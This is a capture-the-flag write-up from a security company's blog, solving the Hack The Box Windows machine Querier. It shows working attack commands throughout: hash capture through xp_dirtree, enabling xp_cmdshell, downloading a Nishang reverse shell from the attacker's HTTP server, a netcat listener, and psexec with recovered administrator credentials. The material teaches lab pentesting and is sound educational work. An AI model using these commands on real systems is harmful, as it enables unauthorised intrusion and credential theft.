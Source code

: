 :page-slug: querier-writeup/
:page-date: 2019-06-28
:page-category: attacks
:page-subtitle: How to solve HTB Querier
:page-tags: security, htb, pwn, web, windows
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331039/blog/querier-writeup/cover_tthq17.webp
:page-alt: New York City Skyline
:page-description: Here we explain how to use Querier's insecure configurations to gain system access, and how to escalate to administrator privileges with pentesting tools.
:page-keywords: HTB, Querier, Security, Web, Writeup, Bounty, Windows, Ethical Hacking, Pentesting
:page-author: Andrés Tirado
:page-writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things
:source: https://unsplash.com/photos/wh-7GeXxItI

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
By following the steps below
we will learn a bit about `Windows`
(a widely used operating system) pentesting.
The challenge begins with a public `SMB`;
this is our first challenge level.
Next, we will work with `SQL Server`
and we will need to use a special `SQL` query
to get the user hash.
Finally, we will take advantage of an insecure configuration
in `Group Policy Preferences` in `Windows`
to escalate to administrator privileges.


== Scanning Phase

The first thing to do is check the connection
to the machine with a simple `ping` command.
We need a stable connection
with the box to make sure that
we will not lose all of our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331038/blog/querier-writeup/ip_zsqsjq.webp[ip]

.Doing ping
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331039/blog/querier-writeup/ping_tyv9g7.webp[ping]

Next, we can use `nmap` to find open ports in the machine.
A simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331039/blog/querier-writeup/nmap_nqo20k.webp[nmap]

We see 4 open ports (`135`, `139`, `445` and `1433`)
and among these,
we found two interesting services,
`microsoft-ds (SMB)` in port `445` and
`ms-sql-s` in port `1433`.
When we try to access via SMB,
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension indicating a `Microsoft Excel Document`.

.Public share
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331039/blog/querier-writeup/share_scfggr.webp[share]

Then we open the specified file with `Microsoft Excel` and
a warning message appears telling us that
the file contains a suspicious macro.

.Macro alert
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/alert_tz2u7h.webp[alert]

We can explore the macro code in `Microsoft Excel`
using the option `Visual Basic` in the Developer Tab.
The macro has an insecure configuration
of a connection to `SQL Server`,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/macro_m86rzk.webp[macro]

== Getting User

Now we can connect to the other interesting service
that we found: `ms-sql-s`.
We use the module `mssqlclient.py` of `Impacket`
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of `SQL Server`
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/mssql-conection_dx6rkq.webp[mssql-conection]

We will use this service to gain system access,
as a user without privileges.
We mount an `SMB` server in our machine
to capture the authentication of any Windows user,
in this case, the user that executes the service `ms-sql-s`.
We tell it to enter our share
to capture its `NTLMv2` hash with an `xp_dirtree` query.
This stored procedure of `SQL Server`
will access our `SMB` share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/mssql-hash_eioncm.webp[mssql-hash]

Then we copy the hash to a plain text file and
use `John the Ripper` with the dictionary `rockyou.txt`
to crack the captured hash.
We need to specify the correct hash format because
`John the Ripper` occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for `NTLMv2` is `netntlmv2`.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/john_hv30a2.webp[john]

Now we can connect to `SQL Server` as user `mssql-svc`.
We try to execute the command `whoami`, however,
it responds telling us that
component `xp_cmdshell` is blocked.
Since we are the service administrator,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/user-mssql_iqxpns.webp[user-mssql]

[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331038/blog/querier-writeup/mssql-commands_q71qua.webp[mssql-commands]

Because we can execute commands,
reading the user flag is now possible.

.User flag
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/flag-user_nfielb.webp[flag-user]

== Getting Root

This method of executing commands
may be an inconvenient way to escalate privileges,
so we will upload a shell to the server.
To do this we will use the script `Invoke-PowerShellTcp.ps1`
of `Nishang` framework.
Before uploading the shell
we add our IP address and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/ip-shell_olbsfz.webp[ip-shell]

Then it is necessary to start an `HTTP` server in our machine.
We can do it with `Python3`.

[source, bash]
----
$ python -m http.server
----

.Http server
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/python-server_hhhxx5.webp[python-server]

To make the server download our file,
we can use `Powershell` as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen `port 30000` and
execute the script in the `HTB` machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/shell-nc_iqz8mh.webp[shell-nc]

At this point we use the module `PowerUp.ps1`
from the `PowerSploit` collection to scan the system
to find a way to escalate privileges.
We can use the same method as in the last step.
We upload the file to the server with `Python3`.

To execute the script we need to import it first,
next we can run all checks
with the command `Invoke-AllChecks`.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/powerup_a8a5bo.webp[powerup]

We can see the Administrator credentials
in plain text in the script output.
The script took advantage
of an insecure configuration
in `Group Policy Preferences` of `Windows`;
it saves credentials with weak encryptions.
It’s time to prove these and
to obtain the root flag.

.Root credentials
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/root-credentials_stx1hp.webp[root-credentials]

Finally, we can get an interactive shell
as Administrator with `psxec.py` from `Impacket`.
With this, we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/psexec_wgodnw.webp[psexec]

Another way to get the root flag
could be to find the file
+
[source, bash]
----
C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
----
using a native tool like `findstr` and
decrypt the password using
the `gpp-decrypt` tool of `Kali Linux`.

.Encrypted password
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/crypt_obsxl0.webp[crypt]

.Decrypted password
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/decrypt_vyl8qo.webp[decrypt]

In this challenge,
we saw some insecure configurations
such as saved credentials in plain text in code.
We also learned how to start an `SMB` server
in our machine to capture hashes and
finally, we learned and used some important tools
for pentesting in `Windows` like
`Impacket`, `Nishang`, and `PowerSploit`.
